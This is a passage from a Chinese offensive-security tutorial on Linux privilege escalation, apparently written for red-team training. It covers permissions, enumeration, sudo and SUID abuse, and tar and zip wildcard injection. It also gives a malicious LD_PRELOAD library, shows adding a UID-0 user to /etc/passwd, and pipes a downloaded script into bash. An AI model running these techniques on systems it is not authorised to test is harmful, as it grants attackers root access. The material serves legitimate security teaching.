







# 第45章 Linux提权技术

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：Linux权限体系详解、信息收集方法、内核漏洞提权、sudo提权（10种姿势）、SUID/SGID提权、计划任务提权、配置文件提权、Docker/LXC容器逃逸、通配符注入、NFS提权、5个实战案例**

::: tip 说明
上两章我们学习了Windows提权技术，
这一章我们来学习Linux提权。

在真实的护网行动中，
Linux服务器也非常常见，
尤其是Web服务器、数据库服务器、
运维跳板机等等。

Linux提权和Windows提权思路类似，
都是先收集信息，
然后找可能的提权路径，
再逐一尝试。

但具体的方法和Windows有很大不同，
Linux有自己独特的提权方式，
比如sudo提权、SUID提权、
内核漏洞提权、容器逃逸等等。

这一章我们就来系统学习Linux提权技术。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
很多人觉得Linux提权比Windows简单，
因为Linux开源，
漏洞信息多，
工具也多。

但实际上，
Linux提权也不简单，
需要掌握的知识点也很多。

比如：
- Linux的权限体系（用户、组、权限位、SUID、SGID、粘滞位）
- 各种配置文件的作用
- sudo的配置和提权
- 内核漏洞
- 服务配置错误
- 容器逃逸
- ...

而且不同的Linux发行版
（Ubuntu、CentOS、Debian、RedHat等）
也有一些差异。

不过不用担心，
这一章我们会从基础讲起，
一步步带你掌握Linux提权技术。

学完这一章，
你会发现Linux提权其实也很有规律，
掌握了方法，
大部分情况都能搞定。
:::

---

> 💡 **大白话Linux提权 vs Windows提权**
>
> 两种系统提权的核心思路一样，但"环境特征"不同：
> - Windows：找配置错误的服务/计划任务/注册表漏洞
> - Linux：找sudo配置/SUID文件/cron/内核漏洞
> - Linux提权第一句命令：`sudo -l`，先看自己有什么特权
> - Linux提权查利用方法：GTFOBins（Linux提权圣经）
> - Linux信息收集：LinPEAS（一键全面收集）

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解Linux权限体系（用户、组、权限位、SUID、SGID）
- [x] 掌握Linux提权的信息收集方法
- [x] 熟练掌握sudo提权的各种姿势
- [x] 掌握SUID/SGID提权方法
- [x] 学会利用计划任务提权
- [x] 了解配置文件提权的各种场景
- [x] 掌握常见内核漏洞提权
- [x] 了解Docker/LXC容器逃逸
- [x] 学会通配符注入提权
- [x] 能独立完成Linux系统的提权

---

## 🐧 Linux权限体系详解

### 1.1 用户和用户组

Linux是一个多用户操作系统，
有完善的用户和权限管理机制。

**用户类型：**

| 用户类型 | 说明 | UID |
|---------|------|-----|
| 超级用户 | root，系统最高权限 | 0 |
| 系统用户 | 系统服务使用的用户，一般不能登录 | 1-999（不同发行版可能不同） |
| 普通用户 | 普通用户，权限受限 | 1000+ |

**相关文件：**
- `/etc/passwd` — 用户信息
- `/etc/shadow` — 用户密码Hash
- `/etc/group` — 用户组信息
- `/etc/gshadow` — 用户组密码

**查看当前用户：**
```bash
whoami
id
```

**查看所有用户：**
```bash
cat /etc/passwd
```

**/etc/passwd格式：**
```
用户名:密码占位符:UID:GID:用户说明:家目录:登录Shell
```

例如：
```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
test:x:1000:1000:test:/home/test:/bin/bash
```

### 1.2 文件权限

Linux中每个文件都有三组权限：
- 所有者（Owner）权限
- 所属组（Group）权限
- 其他用户（Others）权限

每组有三个权限位：
- `r` — 读（read）
- `w` — 写（write）
- `x` — 执行（execute）

**查看文件权限：**
```bash
ls -l filename
```

输出示例：
```
-rwxr-xr-- 1 root root 12345 Jan 1 00:00 filename
```

分解一下：
- `-` — 文件类型（- 普通文件、d 目录、l 链接等）
- `rwx` — 所有者权限（读、写、执行）
- `r-x` — 所属组权限（读、执行）
- `r--` — 其他用户权限（读）
- `root` — 所有者
- `root` — 所属组

**权限的数字表示：**
- r = 4
- w = 2
- x = 1

所以：
- rwx = 4+2+1 = 7
- r-x = 4+0+1 = 5
- r-- = 4+0+0 = 4

上面的例子就是 754。

### 1.3 特殊权限位

除了普通的rwx，
还有三个特殊权限位：

**1. SUID（Set User ID）**
- 只对可执行文件有效
- 执行者会临时获得文件所有者的权限
- 标志：`s` 在所有者的x位置
- 例如：`-rwsr-xr-x`

最典型的例子是`passwd`命令：
```bash
ls -l /usr/bin/passwd
# -rwsr-xr-x 1 root root ...
```
普通用户修改密码需要修改`/etc/shadow`文件，
但普通用户没有权限，
所以passwd命令设置了SUID位，
普通用户执行时临时获得root权限，
这样就能修改shadow文件了。

**2. SGID（Set Group ID）**
- 对可执行文件：执行者临时获得文件所属组的权限
- 对目录：在该目录下创建的文件，组归属和目录一致
- 标志：`s` 在所属组的x位置
- 例如：`-rwxr-sr-x`

**3. 粘滞位（Sticky Bit）**
- 主要用于目录
- 在设置了粘滞位的目录中，
  只有文件的所有者、目录的所有者和root
  才能删除或重命名文件
- 标志：`t` 在其他用户的x位置
- 例如：`drwxrwxrwt`

最典型的例子是`/tmp`目录：
```bash
ls -ld /tmp
# drwxrwxrwt 1 root root ...
```

**特殊权限的数字表示：**
- SUID = 4
- SGID = 2
- 粘滞位 = 1

所以一个4位的权限数字：
- 第一位是特殊权限
- 后面三位是普通权限

例如：
- `4755` — SUID + rwxr-xr-x
- `2755` — SGID + rwxr-xr-x
- `1777` — 粘滞位 + rwxrwxrwx

### 1.4 sudo机制

sudo是Linux中非常重要的机制，
允许普通用户以其他用户的身份
（通常是root）执行命令。

**sudo配置文件：** `/etc/sudoers`

**配置格式：**
```
用户 主机=(运行身份) 命令
```

例如：
```
test ALL=(ALL) ALL
```
表示test用户可以在任何主机上，
以任何用户身份，执行任何命令。

**查看当前用户的sudo权限：**
```bash
sudo -l
```

如果不需要密码就能sudo，
那直接就能提权：
```bash
sudo su
```

sudo提权是Linux提权中
最重要的方法之一，
后面我们会详细讲。

**图45-1 Linux权限体系架构图**



---

## 🔍 Linux提权信息收集

### 2.1 系统信息收集

拿到一个Linux Shell后，
第一步就是收集系统信息。

**基本命令：**
```bash
# 当前用户
whoami
id

# 系统信息
uname -a
cat /etc/os-release
cat /etc/issue

# 主机名
hostname

# 环境变量
env
printenv
```

**内核版本：**
```bash
uname -r
uname -a
cat /proc/version
```
内核版本很重要，
可以用来找内核漏洞。

**发行版：**
```bash
cat /etc/os-release
cat /etc/*release
lsb_release -a
```

### 2.2 用户和权限信息

```bash
# 当前用户信息
id
whoami
groups

# 查看sudo权限
sudo -l
sudo -ll  # 更详细

# 查看所有用户
cat /etc/passwd

# 查看可以登录的用户
cat /etc/passwd | grep -E "/bin/bash|/bin/sh"

# 查看用户密码（如果有权限的话）
cat /etc/shadow

# 查看用户组
cat /etc/group
```

### 2.3 运行的服务和进程

```bash
# 查看所有进程
ps aux
ps -ef

# 查看root运行的进程
ps aux | grep root

# 查看监听的端口
netstat -tulnp
ss -tulnp

# 查看安装的服务
service --status-all
systemctl list-units --type=service
```

### 2.4 文件系统信息

```bash
# 查看当前目录
pwd
ls -la

# 查看家目录
ls -la ~
ls -la /home/

# 查看/root目录（如果有权限）
ls -la /root

# 查找SUID文件
find / -perm -4000 -type f 2>/dev/null

# 查找SGID文件
find / -perm -2000 -type f 2>/dev/null

# 查找所有人可写的文件
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"

# 查找所有人可写的目录
find / -writable -type d 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"

# 查看挂载信息
mount
df -h
cat /etc/fstab
```

### 2.5 计划任务

```bash
# 查看当前用户的crontab
crontab -l

# 查看系统的crontab
cat /etc/crontab
ls -la /etc/cron.*

# 查看所有用户的crontab
ls -la /var/spool/cron/
ls -la /var/spool/cron/crontabs/
```

### 2.6 网络信息

```bash
# 网络接口
ifconfig
ip a

# 路由表
route -n
ip route

# ARP表
arp -a
ip neigh

# 查看hosts文件
cat /etc/hosts

# DNS配置
cat /etc/resolv.conf

# 网络连接
netstat -tulnp
ss -tulnp
```

### 2.7 配置文件和敏感文件

```bash
# SSH配置
cat /etc/ssh/sshd_config
ls -la ~/.ssh/

# Apache/Nginx配置
cat /etc/apache2/apache2.conf
cat /etc/nginx/nginx.conf

# 数据库配置文件
find / -name "*.conf" -path "*/mysql*" 2>/dev/null
find / -name "config.php" 2>/dev/null

# 历史命令
cat ~/.bash_history
cat ~/.history
cat ~/.zsh_history

# 日志文件
ls -la /var/log/

# 备份文件
find / -name "*.bak" -o -name "*.backup" -o -name "*~" 2>/dev/null
```

### 2.8 自动化信息收集工具

手动收集太慢了，
我们有自动化工具：

**1. LinPEAS / LinEnum**
这两个是最常用的Linux提权信息收集脚本，
非常强大，
几乎能检查所有可能的提权点。

使用方法：
```bash
# 下载并执行
wget http://你的IP/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh

# 或者直接通过管道执行
curl -s http://你的IP/linpeas.sh | bash
```

**2. Linux Exploit Suggester**
这个工具用来检测可能的内核漏洞。

```bash
wget http://你的IP/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

**3. MSF的post模块**
```bash
use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
```

**图45-2 Linux提权信息收集维度图**



---

## ⚡ sudo提权

### 3.1 sudo提权概述

sudo提权是Linux提权中
最常见也最重要的方法之一。

如果我们能以root身份执行某些命令，
那就可以通过这些命令来提权。

sudo提权的前提：
1. 知道当前用户的密码（或者不需要密码）
2. 当前用户有sudo权限，能执行某些命令

**查看sudo权限：**
```bash
sudo -l
```

如果输出类似这样：
```
User test may run the following commands on this host:
    (ALL) ALL
```
那恭喜你，直接就能提权：
```bash
sudo su -
```

但现实中很少有这么爽的情况，
通常是只能执行某些特定的命令。

这时候就要看这些命令
能不能用来提权了。

> 💡 **深入理解：sudo 到底是怎么帮你"变成root"的？**
>
> `sudo` 背后的机制其实很简单——它就是**一个拥有SUID位的程序**。
>
> 让我们看看 `sudo` 命令本身：
> ```bash
> ls -l /usr/bin/sudo
> # -rwsr-xr-x 1 root root 166056 ... /usr/bin/sudo
> #   ↑ 看到那个 s 了吗？这就是SUID位！
> ```
>
> 它的所有者是 `root`，并且设置了SUID位。
> 所以任何人执行 `sudo` 时，`sudo` 进程的EUID就是root。
>
> 重点来了，`sudo` 的内部运行逻辑是：
> ```
> 1. 你（test）执行 sudo vi /etc/shadow
> 2. sudo 进程以 root（EUID=0）身份启动
> 3. sudo 读取 /etc/sudoers 配置文件，检查：
>    - test 有没有权限执行 vi？
>    - 要不要输密码验证？
> 4. 检查通过 → sudo 调用 setuid(0) 把自己彻底变成 root
> 5. 以 root 身份执行 vi /etc/shadow
> 6. vi 可以修改 shadow 文件了！
> ```
>
> 关键在第 3-4 步：`sudo` 检查了配置文件后才授权。
> 所以 **`sudo -l` 看到的结果就是 /etc/sudoers 中分配给你的权限**。
>
> `sudo` 就像大楼的"门禁系统"：
> 不是每个人都有大楼总钥匙（root密码），
> 而是管理员在门禁系统里配置了"test 有 101 机房的进入权限"，
> test 刷卡时门禁系统验证后开门。
>
> **所以 Linux 提权的第一件事永远是 `sudo -l`，
> 就是看你卡上写了什么权限！**

下面我们讲一些常见的sudo提权姿势。

### 3.2 可以直接提权的命令

有些命令如果有sudo权限，
可以直接获得root Shell。

**1. su**
```bash
sudo su
# 直接变成root
```

**2. bash / sh / zsh / etc.**
```bash
sudo bash
sudo sh
sudo -s  # 以root身份运行当前Shell
sudo -i  # 以root身份登录
```

**3. cp / mv / cat 等文件操作命令**
如果能以root身份写文件，
那就能修改`/etc/passwd`或`/etc/sudoers`，
或者写SSH公钥到`/root/.ssh/authorized_keys`。

比如用cat：
```bash
# 生成一个密码
openssl passwd -1 -salt hacker P@ssw0rd
# $1$hacker$xxxxxxxxx

# 把我们的用户添加到passwd
echo 'hacker:$1$hacker$xxxxxxxxx:0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd

# 然后切换用户
su hacker
# 输入密码 P@ssw0rd
# 就变成root了
```

或者写SSH公钥：
```bash
# 把我们的公钥写入root的authorized_keys
echo 'ssh-rsa AAAAB3NzaC1yc2E...' | sudo tee -a /root/.ssh/authorized_keys

# 然后用私钥登录
ssh -i id_rsa root@目标IP
```

**4. vi / vim / ed / nano 等编辑器**
编辑器里可以执行命令，
或者直接修改系统文件。

vim的话：
```bash
sudo vim
# 在vim里输入
:!/bin/bash
# 或者
:set shell=/bin/bash
:shell
```

nano的话：
```bash
sudo nano
# 按 Ctrl+R 然后 Ctrl+X
# 输入命令
```

less / more 也可以：
```bash
sudo less /etc/profile
# 然后输入 !bash
```

**5. find**
find命令有个-exec参数，
可以执行命令。

```bash
sudo find /etc -name passwd -exec /bin/bash \;
# 找到passwd文件后执行bash
# 因为find是sudo运行的，所以bash也是root权限
```

### 3.3 通过程序功能提权

很多程序虽然看起来普通，
但它们有一些功能可以被利用来提权。

**1. awk**
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

**2. perl**
```bash
sudo perl -e 'exec "/bin/bash"'
```

**3. python**
```bash
sudo python -c 'import os; os.system("/bin/bash")'
# 或者
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**4. ruby**
```bash
sudo ruby -e 'exec "/bin/bash"'
```

**5. php**
```bash
sudo php -r 'system("/bin/bash");'
```

**6. lua**
```bash
sudo lua -e 'os.execute("/bin/bash")'
```

**7. node**
```bash
sudo node -e 'require("child_process").spawn("/bin/bash", {stdio: "inherit"})'
```

### 3.4 其他常见的sudo提权命令

**1. mysql**
```bash
sudo mysql -e 'SELECT sys_exec("whoami");'
# 需要sys_exec UDF，不一定有

# 或者写文件
sudo mysql -e "SELECT '内容' INTO OUTFILE '/tmp/test'"
```

**2. man**
```bash
sudo man ls
# 然后输入 !bash
```

**3. env**
```bash
sudo env /bin/bash
```

**4. script**
```bash
sudo script -qc /bin/bash /dev/null
```

**5. ftp**
```bash
sudo ftp
ftp> ! /bin/bash
```

**6. gdb**
```bash
sudo gdb -nx -ex '!sh' -ex quit
```

**7. strace**
```bash
sudo strace -o /dev/null /bin/bash
```

**8. tcpdump**
```bash
sudo tcpdump -n -i lo -G1 -W1 -w /dev/null -z /bin/bash
# 不一定能用，看版本
```

还有很多很多...
如果你想知道某个命令能不能提权，
可以去这个网站查：
[GTFOBins](https://gtfobins.github.io/)

这个网站收集了几乎所有
可以用来提权的Linux命令，
非常实用！

**图45-3 sudo提权决策流程图**



### 3.5 sudo通配符注入

有些时候，
sudo配置的命令里用了通配符，
比如：
```
test ALL=(ALL) NOPASSWD: /usr/bin/zip /tmp/*.zip
```

看起来只能用zip压缩/tmp/下的zip文件，
但因为用了通配符`*`，
我们可以利用通配符注入来提权。

**zip通配符注入示例：**

假设sudo配置是：
```
test ALL=(ALL) NOPASSWD: /usr/bin/zip /tmp/backup.zip /home/test/*
```

我们可以这样利用：
```bash
cd /home/test
# 创建一个文件，名字叫 --unzip-command="sh -c /bin/bash"
touch -- '--unzip-command=sh -c /bin/bash'

# 然后执行zip
sudo zip /tmp/backup.zip /home/test/*
```

因为`*`会匹配到我们创建的那个文件，
zip命令会把它当作参数来解析，
于是就执行了我们的命令。

**tar通配符注入：**
tar也有类似的问题，
可以用`--checkpoint-action`来执行命令。

```bash
# 创建两个文件
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# 创建shell.sh
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
chmod +x shell.sh

# 执行tar
sudo tar cf /tmp/backup.tar *

# 然后运行/tmp/bash -p
/tmp/bash -p
# 就获得root shell了
```

### 3.6 sudo环境变量提权

如果sudo配置里保留了某些环境变量，
可能可以用来提权。

比如：
- `LD_PRELOAD`
- `LD_LIBRARY_PATH`

**检查方法：**
```bash
sudo -l
# 看输出里有没有 env_keep 之类的
```

**LD_PRELOAD提权：**
如果保留了LD_PRELOAD，
我们可以加载自己的动态库，
在动态库里执行提权命令。

步骤：
1. 写一个恶意的so文件
2. 用LD_PRELOAD加载它
3. 执行sudo命令
4. 获得root权限

恶意so代码：
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

编译：
```bash
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
```

利用：
```bash
sudo LD_PRELOAD=/tmp/evil.so find
# find是sudo允许执行的命令就行
```

**LD_LIBRARY_PATH提权：**
类似的原理，
通过替换系统库来提权。

### 3.7 sudo -u 提权

有时候sudo配置是
只能以某个特定用户身份执行命令，
而不是root。

比如：
```
test ALL=(dbuser) NOPASSWD: ALL
```

这种情况虽然不能直接提权到root，
但可以先切换到dbuser，
看看dbuser有什么权限，
能不能进一步提权。

也可以看看能不能以其他用户身份执行，
比如有多个用户的权限，
说不定哪个就能进一步提权。

---

## 🔑 SUID/SGID提权

### 4.1 SUID提权原理

前面我们讲过SUID，
设置了SUID位的程序，
执行时会临时获得文件所有者的权限。

如果某个设置了SUID位的程序
所有者是root，
并且这个程序有漏洞或者可以被利用，
那我们就能通过它获得root权限。

**查找SUID文件：**
```bash
find / -perm -4000 -type f 2>/dev/null
# 或者
find / -user root -perm -4000 -type f 2>/dev/null
```

**常见的有SUID的程序：**
正常的系统SUID程序：
- /usr/bin/passwd
- /usr/bin/sudo
- /usr/bin/su
- /usr/bin/chsh
- /usr/bin/chfn
- /usr/bin/newgrp
- /usr/bin/mount
- /usr/bin/umount
- /usr/bin/ping
- ...

这些是系统自带的，
一般没什么问题。
但如果有一些奇怪的程序
也有SUID位，
那可能就是提权点。

> 💡 **深入理解：SUID到底是怎么"临时"提权的？**
>
> 很多同学记住了"SUID可以提权"，
> 但不理解操作系统内核到底做了什么。
> 理解了这个，面试和实战都很受用。
>
> Linux内核在运行程序时，
> 会维护三个"身份标识"：
>
> ```
> 每个进程都有三个关键ID：
> ┌─────────────────────────────────────────┐
> │ Real UID (RUID)      — 真正是谁启动的    │
> │ Effective UID (EUID) — 当前以谁的身份运行 │
> │ Saved UID (SUID)     — 保存的备用身份    │
> └─────────────────────────────────────────┘
> ```
>
> 正常情况下，`Real UID = Effective UID`，你是谁就用谁的身份。
>
> **SUID位的作用就是改这一条规则：**
> 当程序设置了SUID位，内核加载程序时会说：
> "这个程序的 Real UID 是你（test），
> 但 Effective UID 是文件所有者（root）！"
>
> 所以虽然你是普通用户test，但程序运行时
> **实际上**是在以root的身份操作内核资源。
>
> 用生活中的例子理解：
> ```
> 你是一楼的普通住户（Real UID = test）
> 保安亭在一楼（内核），所有资源请求都要经过保安
>
> 正常程序：你敲门 → 保安查你身份 → "你是test，不能开服务器机房的门"
> SUID程序：你拿着一个"万能门禁卡"（SUID位）→ 保安刷卡（EUID = root）→ "滴，root权限，门开了"
> ```
>
> **这就是SUID的神奇之处：**
> 不是"你"变成了root，而是"这个程序"伪装成了root。
> 所以 `passwd` 命令（负责修改密码，需要访问 `/etc/shadow`）
> 必须设SUID——否则普通用户永远改不了自己的密码！
>
> 攻击者的思路就是：
> 如果哪个程序设了SUID又可以被我们利用
> （比如执行子命令、读写任意文件、命令注入等），
> 那这个SUID程序就成了我们的"万能门禁卡"。
>
> **特别注意：脚本（shell/python）的SUID在Linux上默认无效！**
> 因为内核只识别二进制可执行文件的SUID位，
> 脚本文件的SUID位会被忽略（这是个安全设计）。
> 所以你看到 `#!/bin/bash` 开头的脚本有SUID也没用。
> 这也是为什么 `bash -p` 可以提权——`-p` 参数强制不丢弃EUID。

### 4.2 常见SUID提权程序

和sudo提权类似，
很多程序如果有SUID位，
也可以用来提权。

还是那个网站：
[GTFOBins](https://gtfobins.github.io/)
查的时候选SUID就行。

**举几个例子：**

**1. bash / sh**
如果bash有SUID位，
直接：
```bash
bash -p
# -p 参数表示不丢弃SUID权限
```

**2. find**
```bash
find . -exec /bin/bash -p \; -quit
```

**3. vim**
```bash
vim -c ':!/bin/bash -p'
```

**4. awk**
```bash
awk 'BEGIN {system("/bin/bash -p")}'
```

**5. python**
```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**6. perl**
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

**7. nmap**
老版本的nmap有交互模式：
```bash
nmap --interactive
nmap> !sh
```

新版本可以用：
```bash
nmap --script=os.execute("/bin/bash")
```
或者写脚本执行。

**8. cp**
如果cp有SUID，
可以用它来覆盖`/etc/passwd`或`/etc/shadow`，
或者写SSH公钥。

### 4.3 共享库注入

如果SUID程序依赖的
动态链接库我们能控制，
那就能通过替换库文件来提权。

**原理：**
程序加载动态库的时候，
会按一定的顺序查找，
如果我们能在它查找的前面的路径
放一个恶意的同名库，
程序就会加载我们的库，
而不是系统的库。

这和Windows的DLL劫持很像。

**查找SUID程序依赖的库：**
```bash
ldd /path/to/suid_program
```

**利用方法：**
1. 找出SUID程序依赖的库
2. 看看能不能在库搜索路径前面的位置
   写入恶意库
3. 运行SUID程序
4. 获得root权限

**LD_PRELOAD的限制：**
SUID程序会忽略LD_PRELOAD环境变量，
所以不能直接用。

但如果程序自己有设置库路径的功能，
或者配置文件里能指定库路径，
就可能被利用。

### 4.4 程序漏洞利用

有些SUID程序本身有漏洞，
比如缓冲区溢出、格式化字符串漏洞、
命令注入等等。

如果能找到并利用这些漏洞，
也能提权。

不过这种情况需要漏洞挖掘能力，
相对来说难一些，
实战中用得少一些。

### 4.5 SGID提权

SGID和SUID类似，
不过是获得所属组的权限，
而不是所有者的权限。

**查找SGID文件：**
```bash
find / -perm -2000 -type f 2>/dev/null
```

SGID提权思路类似，
就是先获得某个组的权限，
然后看看这个组有什么权限，
能不能进一步提权。

比如：
- 如果是shadow组，可能能读/etc/shadow
- 如果是admin组，可能有sudo权限
- 如果是某些服务的组，可能能改服务配置
- ...

**图45-4 SUID提权原理与利用流程图**



---

## ⏰ 计划任务提权

### 5.1 原理

计划任务（Cron）
是Linux中用来定时执行任务的功能。

如果有一个计划任务：
- 以root身份运行
- 执行的脚本/程序我们能修改
- 或者执行的脚本/程序所在的目录我们能写
- 或者执行的命令有通配符

那我们就能利用它来提权。

